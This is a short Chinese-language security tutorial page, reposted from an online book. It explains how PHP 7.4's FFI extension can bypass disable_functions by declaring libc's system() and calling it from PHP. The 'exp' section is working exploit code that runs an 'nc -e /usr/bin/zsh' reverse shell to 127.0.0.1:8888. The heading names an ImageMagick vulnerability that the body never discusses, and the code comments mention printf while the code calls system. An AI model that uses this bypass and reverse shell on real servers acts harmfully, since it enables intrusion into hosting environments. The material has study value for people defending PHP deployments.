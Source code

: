 > 原文：[http://book.iwonder.run/安全技术/Disable functions/9.html](http://book.iwonder.run/安全技术/Disable functions/9.html)

## 利用 ImageMagick 漏洞绕过（二）

**1.利用条件**

php 7.4 ffi.enable=true

**2.基本原理**

FFI（Foreign Function Interface），即外部函数接口，允许从用户区调用 C 代码。 当 PHP 所有的命令执行函数被禁用后，通过 PHP 7.4 的新特性 FFI 可以实现用 PHP 代码调用 C 代码的方式，先声明 C 中的命令执行函数，然后再通过 FFI 变量调用该 C 函数即可 Bypass disable_functions。

![image](img/7ecb5b7c704063e41ce0b146357d4587.png)

**3.exp**

```
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
   "int system(char *command);", // this is a regular C declaration
   "libc.so.6");
// call C's printf()
$a='nc -e /usr/bin/zsh 127.0.0.1 8888';
$ffi->system($a);
?> 
```

